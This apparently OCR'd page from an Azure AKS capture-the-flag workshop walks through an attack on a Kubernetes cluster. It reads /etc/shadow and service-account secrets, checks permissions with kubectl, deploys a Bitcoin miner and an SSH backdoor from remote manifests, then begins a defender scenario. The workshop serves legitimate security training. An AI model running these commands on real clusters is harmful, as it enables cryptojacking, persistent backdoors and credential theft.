df -h
cat /etc/shadow
ls -l /
ls -l $PWD
echo $PATH
Can we add files to the default PATH?

touch /usr/local/bin/foo && ls /usr/local/bin/
It looks like we can.

Now let's inspect our environment:

env
This tells us several things:

We are in a container
It's managed by Kubernetes
Let's poke around some more and see if we can find any credentials.

ls /var/run/secrets/kubernetes.io/serviceaccount
Deploy Bitcoin miner + backdoor
We have typical Kubernetes-related environment variables defined, and we have anonymous access to some parts of the Kubernetes API. We can see that the Kubernetes version is modern and supported -- but there's still hope if the Kubernetes security configuration is sloppy. Let's check for that next:

This may take a minute or two. Watch the page progress in the browser tab.

cd /usr/local/bin; curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod 555 kubectl; kubectl version
kubectl get all
What workloads are deployed in all of the namespaces?

kubectl get all -A
What operations can I run on this cluster?

kubectl auth can-i --list
Can I create pods?

kubectl auth can-i create pods
It looks like we have hit the jackpot! Let's see if we can start mining some crypto.

kubectl apply -f https://raw.githubusercontent.com/azure/aks-ctf/refs/heads/main/workshop/scenario_1/bitcoinero.yaml; sleep 10; kubectl get pods -n dev
We can see the bitcoinero pod running, starting to generate a small but steady stream of cryptocurrency. But we need to take a few more steps to protect our access to this lucrative opportunity. Let's deploy an SSH server on the cluster to give us a backdoor in case we lose our current access later.

kubectl apply -n kube-system -f https://raw.githubusercontent.com/azure/aks-ctf/refs/heads/main/workshop/scenario_1/backdoor.yaml
Wait ~10 seconds for the Public IP to be exposed

kubectl get svc metrics-server-service -n kube-system -o table -o jsonpath='{.status.loadBalancer.ingress[0].ip}'
Our Bitcoin miner is now deployed and we've also deployed an SSH backdoor. Mission Accomplished.


Ethical Hacking with AKS: Hands-On Attack and Defense Strategies
1 Hr 34 Min Remaining 
Scenario 1 Defense (Free Compute)
Backstory
Name: Blue
Overworked
Can only do the bare minimum
Uses defaults when configuring systems
Usually gets blamed for stability or security issues
Has no experience operating Kubernetes clusters
Motivations
Blue gets paged at 1am with an "urgent" problem: the developers say "the website is slow"
Blue reluctantly agrees to take a "quick look"